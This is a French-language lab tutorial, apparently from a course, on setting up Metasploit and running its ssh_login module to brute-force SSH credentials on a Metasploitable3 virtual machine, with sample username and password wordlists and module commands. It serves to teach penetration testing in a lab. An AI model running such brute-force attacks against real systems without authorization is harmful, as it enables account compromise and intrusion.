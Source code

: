 ## LAB6 - PARTIE2 - Configuration et Utilisation de Metasploit pour Attaque par Force Brute SSH

# 1 -  Description
Ce document fournit des instructions détaillées pour utiliser Metasploit afin de lancer une attaque par force brute SSH contre une machine cible, en l'occurrence Metasploitable3. Ce guide couvre la préparation des fichiers nécessaires, la configuration de Metasploit, et le lancement de l'attaque.

# 2 -  Prérequis
- Un ordinateur ou une machine virtuelle avec Ubuntu 22.04 installé.
- Accès à un compte avec des privilèges d'administrateur.
- **Système d'exploitation**: Linux (Ubuntu 22.04 préféré)
- **Metasploit Framework installé**
- **Accès administratif sur la machine où Metasploit est installé**
- **Machine cible configurée et accessible sur le réseau**

# 3 - Ajout de l'Utilisateur `eleve` au Fichier sudoers
1. **Ouvrez un terminal.**
2. Devenez superutilisateur pour modifier les fichiers de configuration système:
   ```bash
   su
   ```
3. Éditez le fichier sudoers pour ajouter des privilèges administratifs à `eleve`:
   ```bash
   visudo
   ```
4. Ajoutez la ligne suivante pour donner à `eleve` les droits sudo:
   ```
   eleve ALL=(ALL) ALL
   ```
5. **Enregistrez et quittez** l'éditeur. Utilisez `CTRL+X`, suivi de `Y` pour enregistrer si vous utilisez `nano` comme éditeur dans `visudo`.

6. Tapez `exit` pour retourner à la session de l'utilisateur `eleve`.

# Remarque IMPORTANTE #1:  root
- Il ne faut pas utiliser un root user étant donné que c'est bloquant ! C'est pour cette raison j'utilise eleve.
# Remarque IMPORTANTE #2:  permissions
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
    ```
# 4 - (MÉTHODE#1) Installation de Metasploit (si non installé)

1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```
# 4 - (MÉTHODE#2) Installation de Metasploit Framework
1. **Ouvrez un terminal sous le compte `eleve`.**
2. Mettez à jour les paquets et installez les dépendances:
   ```bash
   sudo apt update
   sudo apt install curl gnupg2 software-properties-common
   ```
3. **Ajoutez le dépôt officiel de Metasploit**:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
4. **Vérifiez l'installation** en démarrant Metasploit:
   ```bash
   msfconsole
   ```
# 4 - (MÉTHODE#3) Installation de Metasploit (si non installé)

1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:

```bash
     sudo apt update
     snap install metasploit-framework
 ```


# 5 - Étape 1: Préparation des Fichiers de Noms d'Utilisateurs et de Mots de Passe
1. **Création des fichiers** :
   - Créez les fichiers contenant les noms d'utilisateurs et les mots de passe que vous prévoyez d'utiliser pour l'attaque.
     ```bash
     echo -e "root\nadmin\nuser\ntest\nguest\ninfo\noperator" > /home/eleve/usernames.txt
     echo -e "password\n123456\nadmin\nguest\n123123\npassword1\nqwerty\n12345\n123456789\ntest" > /home/eleve/passwords.txt
     ```

2. **Modification des permissions** :
   - Assurez-vous que les fichiers sont lisibles.
     ```bash
     chmod 644 /home/eleve/usernames.txt
     chmod 644 /home/eleve/passwords.txt
     ```

3. **Changement de propriétaire** :
   - Changez le propriétaire des fichiers pour garantir que Metasploit peut y accéder.
     ```bash
     sudo chown $(whoami) /home/eleve/usernames.txt
     sudo chown $(whoami) /home/eleve/passwords.txt
     ```

# 6 - Étape 2: Déplacement des Fichiers dans un Répertoire Accessible par Metasploit
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
  sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
  ```

# 7 - Étape 3: Configuration de Metasploit

1. ** Initialisation de la Base de Données Metasploit
- Initialisez la base de données PostgreSQL pour Metasploit** (ce qui améliore les performances de Metasploit et permet la persistance des données entre les sessions):
   ```bash
   msfdb init
   ```
2. **Lancement de Metasploit** :
   - Ouvrez Metasploit en utilisant la commande suivante :
     ```bash
     msfconsole
     ```

3. **Configuration du module SSH** :
   - Configurez Metasploit pour utiliser les fichiers déplacés et ciblez la machine appropriée.
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 172.28.128.3
     set USER_FILE /snap/metasploit-framework/usernames.txt
     set PASS_FILE /snap/metasploit-framework/passwords.txt
     set VERBOSE true
     ```
## Remarque : 172.28.128.3 est l'adresse de la machine metasploitable3 (host only adapter regardez le lab précédent ) dans mon cas


# 7 -  Étape 4: Lancement de l'Attaque
- Exécutez le module pour commencer l'attaque.
  ```bash
  run
  ```

### Conseils de Sécurité
- **Permissions**: Vérifiez régulièrement que les permissions des fichiers sont correctement configurées pour éviter tout accès non autorisé.
- **Légalité**: Assurez-vous d'avoir l'autorisation explicite de tester la machine cible. L'utilisation de Metasploit sans consentement est illégale.

### Dépannage
- Si des problèmes surviennent, vérifiez les logs de Metasploit pour des détails sur les erreurs. Assurez-vous que les chemins des fichiers sont corrects et que les fichiers ne sont pas corrompus.

---

Ce document devrait vous fournir une base solide pour l'utilisation sécurisée et efficace de Metasploit dans vos tests de pénétration. Assurez-vous de suivre les meilleures pratiques de sécurité et de conformité légale lors de vos tests.
